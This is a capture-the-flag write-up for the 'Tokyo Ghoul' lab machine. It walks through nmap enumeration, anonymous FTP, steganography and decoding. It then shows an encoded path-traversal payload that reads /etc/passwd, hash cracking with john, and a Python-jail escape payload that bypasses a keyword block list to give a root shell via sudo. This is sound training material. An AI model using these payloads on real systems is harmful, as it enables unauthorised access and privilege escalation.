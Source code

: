 ##Tokyo Ghoul

#Enumeration
```
# Nmap 7.91 scan initiated Mon Mar 15 15:25:26 2021 as: nmap -sC -sV -oN nmap/initial -vvv -p 22,21,80 10.10.144.68
Nmap scan report for 10.10.144.68
Host is up, received reset ttl 61 (0.15s latency).
Scanned at 2021-03-15 15:25:27 PDT for 13s

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23 22:26 need_Help?
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.13.1.12
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeIXT46ZiVmp8Es0cKk8YkMs3kwCdmC2Ve/0A0F7aKUIOlbyLc9FkbTEGSrE69obV3u6VywjxZX6VWQoJRHLooPmZCHkYGjW+y5kfEoyeu7pqZr7oA8xgSRf+gsEETWqPnSwjTznFaZ0T1X0KfIgCidrr9pWC0c2AxC1zxNPz9p13NJH5n4RUSYCMOm2xSIwUr6ySL3v/jijwEKIMnwJHbEOmxhGrzaAXgAJeGkXUA0fU1mTVLlSwOClKOBTTo+FGcJdrFf65XenUVLaqaQGytKxR2qiCkr7bbTaWV0F8jPtVD4zOXLy2rGoozMU7jAukQu6uaDxpE7BiybhV3Ac1x
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC5o77nOh7/3HUQAxhtNqHX7LGDtYoVZ0au6UJzFVsAEJ644PyU2/pALbapZwFEQI3AUZ5JxjylwKzf1m+G5OJM=
|   256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJwYjN/qiwrS4es9m/LgWitFMA0f6AJMTi8aHkYj7vE
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 15 15:25:40 2021 -- 1 IP address (1 host up) scanned in 13.58 seconds
```
Looks like a ftp server that allows anonymous login, so lets check this out while we start enumerating the http server on port 80

#FTP
Going through all the directories here we find 3 files
Aogiri_tree.txt
```
Why are you so late?? i've been waiting for too long .
So i heard you need help to defeat Jason , so i'll help you to do it and i know you are wondering how i will.
I knew Rize San more than anyone and she is a part of you, right?
That mean you got her kagune , so you should activate her Kagune and to do that you should get all control to your body , i'll help you to know Rise san more and get her kagune , and don't forget you are now a part of the Aogiri tree .
Bye Kaneki.
```
need_to_talk
a binary, we can call use strings to find the following amidst some interesting function names
```
kamishiro
Hey Kaneki finnaly you want to talk
Unfortunately before I can give you the kagune you need to give me the paraphrase
Do you have what I'm looking for?
Good job. I believe this is what you came for:
Hmm. I don't think this is what I was looking for.
Take a look inside of me. rabin2 -z
```
We can quickly load this into ghidra and find the password that allows us to get the flag from here

rize_and_kaneki.jpg
We can use the flag we just got from the binary to extract stegnography data from this jpg. 
steghide extract -sf rize_and_kaneki.jpg
Enter passphrase:
wrote extracted data to "yougotme.txt".
```
haha you are so smart kaneki but can you talk my code

..... .-
....- ....-
....- -....
--... ----.
....- -..
...-- ..---
....- -..
...-- ...--
....- -..
....- ---..
....- .-
...-- .....
..... ---..
...-- ..---
....- .
-.... -.-.
-.... ..---
-.... .
..... ..---
-.... -.-.
-.... ...--
-.... --...
...-- -..
...-- -..


if you can talk it allright you got my secret directory
```
We can use cyberchef to turn this from morse code -> hex -> base64 and get the secret directory.

#HTTP Server
Our enumeration hasn't come back with much but we got a secret directory above so lets check it out. We follow the link on the frontpage and on jasonroom.html we can find a hint in the source code comments that leads us to the ftp server we have already gotten information from, so lets go to the secret directory.
```
Scan me scan me scan all my ideas aaaaahhhhhhhh 
```
We go ahead and fire up gobuster to look for directories and eventually find a directory, claim
We can click the yes or no link at the top to get the following url
http://10.10.144.68/d1r3c70ry_center/claim/index.php?view=flower.gif

http://10.10.144.68/d1r3c70ry_center/claim/index.php?view=../../../etc/passwd
```
 no no no silly don't do that
```
Hmm so maybe we need to use url encoding

http://10.10.144.68/d1r3c70ry_center/claim/index.php?view=..%2F..%2F..%2Fetc%2Fpasswd
same thing so guess the periods are filtered as well
http://10.10.144.68/d1r3c70ry_center/claim/index.php?view=%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
statd:x:110:65534::/var/lib/nfs:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000:vagrant,,,:/home/vagrant:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
kamishiro:<redacted password hash>:1001:1001:,,,:/home/kamishiro:/bin/bash
```
We can quickly crack this password hash using john and rockyou
john --wordlist=/usr/share/wordlists/rockyou.txt kamishiroPass
john --show kamishiroPass 

We can then use these credentials to login over ssh

#Privilege Escalation
We find the user flag in the current/home directory and a jail.py file
```
kamishiro@vagrant:~$ sudo -l
[sudo] password for kamishiro:
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```
seems like we can run this python file as root so lets check it out to see if we can exploit it
```
kamishiro@vagrant:~$ cat jail.py
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```
Looks like the file lets us execute some commands but not the filtered ones that would give us 
root escalation or read access however we find the following article, https://anee.me/escaping-python-jails-849c65cf306e. This details how we can bypass this jail and use python builtins to still be able to access these forbidden functions so we craft the following payload
```
__builtins__.__dict__['__IMPORT__'.lower()]('PTY'.lower()).__dict__['SPAWN'.lower()]('/bin/bash')
```
Running the jail.py file with sudo now gives us a root shell and we find the flag in /root
